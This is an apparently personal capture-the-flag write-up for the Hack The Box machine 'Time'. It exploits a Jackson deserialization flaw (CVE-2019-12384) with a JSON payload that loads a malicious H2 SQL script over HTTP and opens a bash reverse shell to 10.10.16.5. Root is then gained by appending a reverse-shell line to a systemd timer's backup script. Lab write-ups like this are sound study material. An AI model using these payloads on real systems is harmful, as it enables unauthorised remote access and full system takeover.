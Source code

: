 # [Time](https://app.hackthebox.com/machines/time)

```bash
nmap -p- --min-rate 10000 10.10.10.214
```

![Alt text](img/image.png)


After finding open ports, (22,80). Let's do greater nmap scan.


```bash
nmap -A -sC -sV -p22,80 10.10.10.214
```

![Alt text](img/image-3.png)

While we enter interesting value to Validate (!beta) section.

![Alt text](img/image-2.png)

![Alt text](img/image-1.png)


We see from problem that Jackson is used (Java).


Let's search some interesting stuff.
We find this library as repository on Github [link](https://github.com/FasterXML/jackson-databind)


We understand that it is CVE-2019-12384, I read this [article](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) for exploitation


1. We need to create malicous SQL file which executes reverse shell command.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
   String[] command = {"bash", "-c", cmd};
   java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
   return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.16.5/1337 0>&1"')
```

2. Then, open http server on location which malicious sql file is located.

```bash
python3 -m http.server --bind 10.10.16.5 80
```

3. Open listener

```bash
nc -lnvp 1337
```

4. Submit below value to input part.
```bash
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.16.5/dr4ks.sql'"}]
```

We submit payload into form.

![Alt text](img/image-4.png)

Then we see that, dr4ks.sql file is requested.

![Alt text](img/image-5.png)


While looking at listener, we see that we got reverse shellllllll.

![Alt text](img/image-6.png)



Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```
![Alt text](img/image-7.png)


user.txt

![Alt text](img/image-13.png)

After execution of linpeas.sh, I see that System timers is used and detect that is used, let's try to exploit this.

![Alt text](img/image-8.png)

![Alt text](img/image-9.png)

We see that 'web_backup.service' is also used, let's read this .

cat /etc/systemd/system/web_backup.service

![Alt text](img/image-10.png)


There is **Bash script (/usr/bin/timer_backup.sh**) is used. 

Let's try to add reverse shell into bash script to be root user.

```bash
echo -e '\nbash -i >& /dev/tcp/10.10.16.5/1338 0>&1' >> /usr/bin/timer_backup.sh
```

![Alt text](img/image-11.png)


root.txt

![Alt text](img/image-12.png)